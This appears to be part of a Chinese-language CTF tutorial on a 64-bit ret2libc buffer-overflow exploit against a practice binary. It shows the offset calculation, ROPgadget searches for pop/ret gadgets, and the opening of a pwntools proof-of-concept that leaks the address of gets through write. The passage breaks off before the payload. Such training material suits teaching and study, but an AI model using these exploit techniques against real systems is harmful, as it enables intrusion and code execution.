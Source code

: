 ```
我这里由于pwndbg版本较高，所以需要使用ret整段内存地址来得到偏移值。得到偏移值是18
```

![image-20241217152922634](pwn二进制漏洞/image-20241217152922634.png)	

```
查找64位的libc库的目录。
/lib/x86_64-linux-gnu/libc.so.6
```

![image-20241217153034500](pwn二进制漏洞/image-20241217153034500.png)	

```
由于需要使用write函数来泄露gets的真实内存地址，从而计算获得libc库的真实内存地址，那接下来的问题是64位程序，是借助rdi,rsi,rdx获得函数前三个参数，那么就需要借助syscall的思想，去找拼凑的汇编代码。
ROPgadget --binary ./ret2libc1_64 --only  "pop|ret"
但是会发现只能找到rdi和rsi寄存器的存入汇编，但是没有rdx,那么只能舍弃write的第三个参数，而第三个参数不指定，可能会读取很大的值，所以我们只需获取前八个字节即可。
0x00000000004005e3
0x00000000004005e1
```

![image-20241217153655254](pwn二进制漏洞/image-20241217153655254.png)	

```python
以下代码是poc.py用于验证漏洞使用的。
from pwn import *  # 导入 pwntools 库，用于构造和发送 Payload
context(arch="amd64", os="linux")  # 设置目标程序的架构为 x86_64，操作系统为 Linux

# 启动目标程序
p = process("./ret2libc1_64")

# 解析目标程序的 ELF 文件，提取符号表等信息
e = ELF("./ret2libc1_64")

# 获取目标程序中 write@plt 的地址
write_plt_addr = e.plt["write"]  # PLT 表中 write 的入口地址，用于调用 write 函数
# 获取目标程序中 gets@got 的地址
gets_got_addr = e.got["gets"]  # GOT 表中 gets 的地址，用于泄露真实的 gets 函数地址
# 获取目标程序中 vul 函数的地址
vul_addr = e.symbols["vul"]  # 目标函数的地址，方便返回重新利用漏洞

# ROP gadgets 地址
```